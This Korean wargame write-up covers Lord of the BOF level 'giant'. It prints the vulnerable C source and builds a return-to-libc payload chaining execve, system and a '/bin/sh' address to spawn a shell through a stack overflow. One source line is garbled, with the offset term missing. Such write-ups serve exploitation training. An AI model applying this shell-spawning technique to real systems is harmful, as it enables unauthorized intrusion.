 ```yaml
---
title: "[LOB]Level14. giant"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Only Execve](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



execve_addr = ebp-56  => 0x080da023 / 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

-----

### 0x02. Exploit

```
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.

-----

